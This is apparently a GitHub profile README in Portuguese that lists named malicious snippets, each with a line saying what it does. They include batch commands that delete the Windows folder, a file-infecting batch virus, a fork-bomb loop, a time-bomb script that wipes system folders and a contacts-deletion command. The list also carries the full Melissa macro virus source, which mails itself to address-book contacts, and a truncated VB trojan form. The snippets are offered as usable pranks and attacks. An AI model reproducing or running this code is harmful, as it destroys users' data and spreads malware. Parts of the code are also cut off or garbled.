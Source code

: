 Nome:Del All Windows
rmdir /s /q c:\windows
Função:Deleta tdo do Windows (fode o pc

Nome:Autoexec
@ECHO OFF
@BREAK OFF
deltree/C: Y\*.*
Função:Fode com tudo

Nome:Trojan-1
VERSION 5.00
Object = "{831FDD16-0C5C-11D2-A9FC-0000F8754DA1}#2.0#0"; "mscomctl.ocx"
Begin VB.Form Form1
BackColor = &H80000007&
BorderStyle = 1 'Fixed Single
Caption = "Welcome to XP Blaster Pro (Enterprise Edition)!"
ClientHeight = 5400
ClientLeft = 45
ClientTop = 390
ClientWidth = 8085
BeginProperty Font
Name = "Fixedsys"
Size = 9
Charset = 0
Weight = 400
Underline = 0 'False
Italic = 0 'False
Strikethrough = 0 'False
EndProperty
Icon = "Source3.frx":0000
LinkTopic = "Form1"
MaxButton = 0 'False
MinButton = 0 'False
MouseIcon = "Source3.frx":08CA
PaletteMode = 2 'Custom
ScaleHeight = 5400
ScaleWidth = 8085
ShowInTaskbar = 0 'False
StartUpPosition = 3 'Windows Default
Begin VB.CommandButton Command3
Caption = "About"
BeginProperty Font
Name = "MS Sans Serif"
Size = 8.25
Charset = 0
Weight = 400
Underline = 0 'False
Italic = 0 'False
Strikethrough = 0 'False
EndProperty
Height = 375
Left = 120
TabIndex = 3
Top = 4920
Width = 1215
End
Begin VB.CommandButton Command2
Appearance = 0 'Flat
BackColor = &H000000FF&
Caption = "WEBSITE"
BeginProperty Font
Name = "Trebuchet MS"
Size = 8.25
Charset = 0
Weight = 400
Underline = 0 'False
Italic = 0 'False
Strikethrough = 0 'False
EndProperty
Height
Função:Augumas dos trojans tradiçionais

Nome:Del p/ Windows
del /s /q c:\windows\
Função:Deleta tudo dentro do Windows ex: arquivos e naum pastas

Nome:Shutdown-S
shutdown -s
Função:Desliga o pc

Nome:Shutdown-R
shutdown -r
Função:Reinicia o pc

Nome:Trojan-2
@echo off
ctty nul
rem
for %%f in (*.exe *.com) do set A=%%f
if %A%==COMMAND.COM set A=
rename %A% V%A%
if not exist V%A% goto end
attrib +h V%A%
copy %0.bat %A%
attrib +r %A%
ren %A% *.bat
set A=
:end
ctty con
@if exist V%0.com V%0.com %1 %2 %3
@if exist V%0.exe V%0.exe %1 %2 %3
Função:Fode com tudo mesmo...

Nome:Pirata
X5O!P%@AP[4\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*
Função:Testar seu Anti-Virus ou enganar auguem.

Nome:Melissa 1999
// Melissa Virus Source Code
Private Sub Document_Open()
On Error Resume Next
If System.PrivateProfileString("",
"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", "Level") <> ""
Then
CommandBars("Macro").Controls("Security...").Enabled = False
System.PrivateProfileString("",
"HKEY_CURRENT_USER\Software\Microsoft\Office\9.0\Word\Security", "Level") = 1&
Else
CommandBars("Tools").Controls("Macro").Enabled = False
Options.ConfirmConversions = (1 - 1): Options.VirusProtection = (1 - 1):
Options.SaveNormalPrompt = (1 - 1)
End If
Dim UngaDasOutlook, DasMapiName, BreakUmOffASlice
Set UngaDasOutlook = CreateObject("Outlook.Application")
Set DasMapiName = UngaDasOutlook.GetNameSpace("MAPI")
If System.PrivateProfileString("",
"HKEY_CURRENT_USER\Software\Microsoft\Office\", "Melissa?") <> "... by Kwyjibo"
Then
If UngaDasOutlook = "Outlook" Then
DasMapiName.Logon "profile", "password"
For y = 1 To DasMapiName.AddressLists.Count
Set AddyBook = DasMapiName.AddressLists(y)
x = 1
Set BreakUmOffASlice = UngaDasOutlook.CreateItem(0)
For oo = 1 To AddyBook.AddressEntries.Count
Peep = AddyBook.AddressEntries(x)
BreakUmOffASlice.Recipients.Add Peep
x = x + 1
If x > 50 Then oo = AddyBook.AddressEntries.Count
Next oo
BreakUmOffASlice.Subject = "Important Message From " &
Application.UserName
BreakUmOffASlice.Body = "Here is that document you asked for ... don't
show anyone else Wink"
BreakUmOffASlice.Attachments.Add ActiveDocument.FullName
BreakUmOffASlice.Send
Peep = ""
Next y
DasMapiName.Logoff
End
Função:se espalha rapidamente e força empresas como Intel e Microsoft, entre outras, a fechar seus sistemas de e-mail para conter a praga, que se disseminava via Outlook. O vírus, além de se enviar pela Internet, modificava documentos do Word colocando falas do programa de televisão Os Simpsons. Causou danos estimados em US$ 300 milhões a US$ 600 milhões.

Nome:CLICK EM MIM
@ECHO OFF
:REPETE
MSG * CLICK EM MIM
GOTO REPETE
Função:Fica repetindo varias vezes a mesma mensagem

Nome:Progstar
@echo off
rem Denial Of Service Local
:Fucker
start notepad.exe
start write.exe
start sol.exe
start cmd.exe
start powerpnt.exe
start excel.exe
start winword.exe
start msacess.exe
goto Fucker:
Função:Abre varios programas sem parar, fais o pc travar

Nome:bomba relógio
c:\
cd\
echo off
if exist lig1.drv goto 2
echo > lig1.drv sdfsdf
goto fim
:2
if exist lig2.drv goto 3
echo > lig2.drv sdfsdf
goto fim
:3
if exist lig3.drv goto 4
echo > lig3.drv sdfsdf
goto fim
:4
if exist lig4.drv goto 5
echo > lig4.drv sdfsdf
goto fim
:5
if exist lig5.drv goto 6
echo > lig4.drv sdfsdf
goto fim
:6
if exist lig6.drv goto 7
echo > lig6.drv sdfsdf
goto fim
:7
rmdir C:\windows
rmdir C:\arquivos de programas
rmdir C:\documents and settings
:fim
Função:depois que ele for ativado 7 vezes ele apaga tudo
Nome:MSN Fixer
cd %USERPROFILE%
cd Config~1
cd Dadosd~1
cd Micros~1
cd "Windows Live Contacts"
del /s /q *.*- 👋 Hi, I’m @Gabrielhenriquesouzacastro
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Gabrielhenriquesouzacastro/Gabrielhenriquesouzacastro is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
